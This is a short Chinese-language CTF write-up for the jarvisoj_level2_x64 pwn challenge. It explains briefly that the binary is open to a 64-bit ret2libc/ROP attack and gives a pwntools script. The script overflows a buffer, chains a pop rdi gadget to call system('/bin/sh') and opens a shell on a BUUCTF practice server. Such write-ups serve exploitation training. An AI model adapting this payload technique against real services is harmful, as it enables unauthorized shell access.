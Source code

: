 ```yaml
---
title: "jarvisoj_level2_x64"
description: ""
date: 2023-04-07T00:17:54+08:00
lastmod: 2023-04-07T00:17:54+08:00
draft: false
images: []
type: docs
weight: 990
toc: true
---
```


## 0x01 分析

jarvisoj\_level2的64位版本，有system和 `/bin/sh` 字符串，只是传参方式变了，还是ret2libc类型

## 0x02 Exploit

```python
from pwn import*
# o = process("./pwn")
o = remote("node4.buuoj.cn", 27906)
pop_rdi = 0x00000000004006b3
payload = b'a'*0x88 + p64(pop_rdi) + p64(0x600A90) + p64(0x400603)
o.sendline(payload)
o.interactive()
```

![4467f6e1a55a54a15378ed623d1fe218](images/4467f6e1a55a54a15378ed623d1fe218.png)  

自行调试
